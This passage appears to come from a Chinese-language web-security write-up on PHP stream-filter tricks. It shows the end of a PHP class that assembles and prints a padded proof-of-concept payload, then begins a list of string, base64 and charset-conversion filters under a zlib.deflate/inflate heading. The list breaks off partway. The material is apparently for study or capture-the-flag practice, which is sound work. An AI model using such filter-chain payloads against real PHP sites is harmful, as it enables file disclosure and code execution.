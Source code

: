 ```php
        }
        
        $result .= $padding;
        $result .= $this->poc;
        $result .= $this->end;
        echo substr($result,strlen($this->prefix)),"\n";
    }
}


$a = new Generate();
$a->Run();
```



### zlib.deflate与zlib.inflate

```php
<?php
$a = [
    'string.toupper',
    'string.tolower',
    'string.strip_tags',
    'convert.base64-encode',
    'convert.base64-decode',
    'ASCII',
    'EUC-JP',
    'SJIS',
    'eucJP-win',
    'SJIS-win',
    'ISO-2022-JP',
    'ISO-2022-JP-MS',
    'CP932',
    'CP51932',
    'SJIS-mac',
    'SJIS-Mobile#DOCOMO',
    'SJIS-Mobile#KDDI',
    'SJIS-Mobile#SOFTBANK',
    'ISO-2022-JP-MOBILE#KDDI',
    'JIS',
    'JIS-ms',
    'CP50220',
    'CP50220raw',
    'CP50221',
    'CP50222',
    'ISO-8859-1',
    'ISO-8859-2',
    'ISO-8859-3',
    'ISO-8859-4',
    'ISO-8859-5',
    'ISO-8859-6',
    'ISO-8859-7',
    'ISO-8859-8',
    'ISO-8859-9',
    'ISO-8859-10',
    'ISO-8859-13',
    'ISO-8859-14',
    'ISO-8859-15',
    'ISO-8859-16',
    'byte2be',
    'byte2le',
    'byte4be',
    'byte4le',
```